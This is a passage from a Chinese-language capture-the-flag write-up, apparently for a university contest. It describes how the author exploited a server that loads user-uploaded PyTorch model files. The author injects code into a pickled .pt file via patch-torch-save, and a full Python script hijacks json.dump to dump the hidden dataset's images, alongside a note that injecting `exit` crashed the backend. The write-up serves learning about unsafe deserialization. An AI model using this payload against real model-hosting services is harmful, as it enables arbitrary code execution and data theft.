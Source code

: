 把 pt 文件解压缩可以得到一个 pkl 文件，然而直接用 packle 载入会报错。把 PyTorch 版本换成题目中的 1.9 也不行。尝试调试库代码，以失败告终。

> 15:30

Google 了好久，终于用 `pickle Serialization danger pytorch` 找到了一个示例 [The hidden dangers of loading open-source AI models (ARBITRARY CODE EXPLOIT!)](https://www.youtube.com/watch?v=2ethDz9KnLk)，作者写了一个库 [yk/patch-torch-save](https://github.com/yk/patch-torch-save)，这个函数可以替换 `torch.save` 实现代码注入。

试了一下在要上传的模型中注入 `exit` 进去，发现确实可以让后台崩掉。

实现时需要阻止在执行注入的代码后按照 pt 文件后面的数据保存结果。于是重写 `json.dump` 函数，让服务器在调用这个函数时把数据集的前十张图片导出到 `/tmp/result.json`

```python
import torch
import patch_torch_save
from models import SimpleGenerativeModel

def replaceWithDataset():
    import json

    def fun(a, b):
        import io
        import base64
        import torch
        import matplotlib.image

        predictions = torch.load("dataset/pixels_10.pt", map_location="cpu")
        gen_imgs = []
        for i in range(10):
            out_io = io.BytesIO()
            matplotlib.image.imsave(out_io, predictions[i].numpy(), format="png")
            png_b64 = base64.b64encode(out_io.getvalue()).decode()
            gen_imgs.append(png_b64)

        jsondump({"gen_imgs_b64": gen_imgs}, open("/tmp/result.json", "w"))

    global jsondump
    jsondump = json.dump
    json.dump = fun

patched_save_function = patch_torch_save.patch_save_function(replaceWithDataset)

model = SimpleGenerativeModel(n_tags=63, dim=8, img_shape=(64, 64, 3))
model.load_state_dict(torch.load("checkpoint/model.pt", map_location="cpu"))

patched_save_function(model.state_dict(), "checkpoint/model2.pt")
```

感谢 Stable Diffusion，感谢 NovelAI，我拿到了第一个 flag，获得了这一题的一血，守护了科大这片二次元的土地。

<br>

### 1. 签到

一开始点开签到，画了一下没画出来，开始把网页下载下来看代码。
